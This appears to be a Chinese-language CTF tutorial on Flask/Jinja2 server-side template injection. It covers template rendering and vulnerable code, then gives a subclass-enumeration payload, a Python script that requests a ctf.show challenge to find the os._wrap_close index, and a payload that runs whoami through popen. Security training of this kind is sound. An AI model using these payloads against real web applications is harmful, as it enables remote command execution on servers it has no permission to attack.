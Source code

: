 # SSTI

<br>

## Flask模板注入

ssti服务端模板注入，ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。本文着重对flask模板注入进行浅析。

<br>

### 模板渲染

让我们用例子来简析模板渲染。

````
<html>
<div>{$what}</div>
</html>
````

我们想要呈现在每个用户面前自己的名字。但是{$what}我们不知道用户名字是什么，用一些url或者cookie包含的信息，渲染到what变量里，呈现给用户的为

````
<html>
<div>张三</div>
</html>
````

当然这只是最简单的示例，一般来说，至少会提供分支，迭代。还有一些内置函数。

<br>

### 重要函数

#### render_template函数

<img src="https://54huarui.github.io/blogs/falsk/p1.png" width="880" height="480">

#### regquest.arg.get('a')函数

通过get的方式获得请求

#### render_template_string函数

多用于ctf赛题里，用于渲染字符串，可以直接定义网页内容
<img src="https://54huarui.github.io/blogs/falsk/p3.png" width="880" height="480">

#### url_for()函数

用来构建url

#### redirect()函数

用来重定向网站


<br>


### 成因

例子：

````
<html>
  <head>
    <title>{{title}} - 小猪佩奇</title>
  </head>
 <body>
      <h1>Hello, {{user.name}}!</h1>
  </body>
</html>
````

里面有两个参数需要我们渲染，user.name，以及title

我们在app.py文件里进行渲染。


````
@app.route('/')
@app.route('/index')#我们访问/或者/index都会跳转
def index():
   return render_template("index.html",title='Home',user=request.args.get("key"))
````

<br>

## 解题思路

<br>

1.找到模板注入点

2.先查看所有的子类

<br>

````
{{"".__class__.__bases__[0].__subclasses__()}}
````

<br>

然后寻找可用子类并且获得它的序号
````
import requests
from bs4 import BeautifulSoup
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def crawl(url):
    try:
        # 发送请求
        response = requests.get(url, verify=False)

        # 检查请求是否成功
        if response.status_code == 200:
            # 返回网页的HTML内容
            return response.text
        else:
            print(f"请求失败，状态码: {response.status_code}")
            return None
    except requests.exceptions.RequestException as e:
        print(f"请求发生异常: {e}")
        return None


def truncate_at_string(text, target_string):
    # 找到目标字符串在文本中的位置
    pos = text.find(target_string)
    if pos == -1:
        return "目标字符串未找到"

    # 截取文本至目标字符串位置（不包括目标字符串本身）
    truncated_text = text[:pos]

    return truncated_text

def count_substring_occurrences(text, substring):
    # 使用 count 方法统计子字符串出现的次数
    count = text.count(substring)
    return count


#确定寻找的子类
target_string = "os._wrap_close"

url = b"https://d2da0681-9d65-4e0b-8a88-64c4a7cf0ab0.challenge.ctf.show/hello/%7B%7B%22%22.__class__.__bases__[0].__subclasses__()%7D%7D"
html_content = crawl(url)
te = truncate_at_string(html_content, target_string)

#开始数
stringwant = "&#39"
mem = count_substring_occurrences(te,stringwant)
print (f"你想要找到的子类{target_string}列表号是")
print((mem-1)/2)

#print(te)

#if html_content:
#    print(f"全部子类:\n{html_content}")


````

<br>


这里我获得的序号是132

<br>

3.命令执行
````
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('whoami').read()}}
````














